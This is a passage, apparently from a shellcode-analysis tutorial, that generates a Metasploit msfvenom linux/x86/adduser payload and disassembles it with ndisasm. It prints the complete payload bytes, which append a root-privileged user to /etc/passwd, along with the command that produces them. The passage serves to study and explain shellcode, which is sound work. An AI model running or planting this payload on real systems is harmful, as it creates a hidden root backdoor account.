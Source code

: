 Note that the shell-code contains zeros, you can exclude them by specifying \x00 as a bad character with -b '\x00'
```
dipsy@kali:~$ msfvenom -p linux/x86/adduser USER=oxdipsy PASS=oxdipsy -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 94 bytes
Final size of c file: 421 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x6f\x78"
"\x64\x69\x70\x73\x79\x3a\x41\x7a\x32\x4d\x6e\x52\x70\x37\x6f"
"\x78\x4b\x58\x51\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"
"\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a"
"\x01\x58\xcd\x80";
```

To dissect the shell-code we can use ndisasm, where -u means operating in 32-bit mode. Note that there are 4 syscalls, 0x46, 0x5, 0x4 and 0x1 respectively. I’m going to explain each syscall separately in the debugging part — stay tuned ★!
```
dipsy@ubuntu:~$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x6f\x78\x64\x69\x70\x73\x79\x3a\x41\x7a\x32\x4d\x6e\x52\x70\x37\x6f\x78\x4b\x58\x51\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E825000000        call dword 0x50
0000002B  6F                outsd
0000002C  7864              js 0x92
0000002E  697073793A417A    imul esi,[eax+0x73],dword 0x7a413a79
00000035  324D6E            xor cl,[ebp+0x6e]
00000038  52                push edx
00000039  7037              jo 0x72
0000003B  6F                outsd
0000003C  784B              js 0x89
0000003E  58                pop eax
0000003F  51                push ecx
00000040  3A30              cmp dh,[eax]
00000042  3A30              cmp dh,[eax]
00000044  3A3A              cmp bh,[edx]
00000046  2F                das
00000047  3A2F              cmp ch,[edi]
00000049  62696E            bound ebp,[ecx+0x6e]
0000004C  2F                das
0000004D  7368              jnc 0xb7
0000004F  0A598B            or bl,[ecx-0x75]
```